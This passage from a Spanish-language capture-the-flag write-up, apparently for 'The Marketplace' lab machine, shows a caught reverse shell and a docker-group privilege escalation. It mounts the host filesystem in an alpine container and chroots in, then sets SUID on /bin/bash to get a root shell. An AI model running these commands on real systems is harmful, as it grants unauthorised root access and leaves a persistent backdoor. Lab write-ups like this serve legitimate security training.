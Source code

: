 ```bash
connect to [10.8.47.45] from (UNKNOWN) [10.10.15.148] 52648
michael@the-marketplace:/tmp$ whoami
whoami
michael
michael@the-marketplace:/tmp$
```
## Escalada De Privelegios

Si hacemos un id estamos en el grupo docker, bueno si estamos en este grupo tenemos una escalada de privelegios facil, solamente ejecutamos este comando.
```bash
michael@the-marketplace:/$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# whoami
root
# 
```
el comando anterior se encuentra en [gtfobins](https://gtfobins.github.io/gtfobins/docker/#shell) voy a darle privelegios suid a la bash para poder operar mas comodo.
```bash
# chmod u+s /bin/bash
```
Ya nos podemos salir del contenedor y migrar a root ya que le dimos privelegios suid a la bash, el parametro -p es para que atienda al propietario.
```bash
michael@the-marketplace:/$ bash -p
bash-4.4# whoami
root
bash-4.4#
```


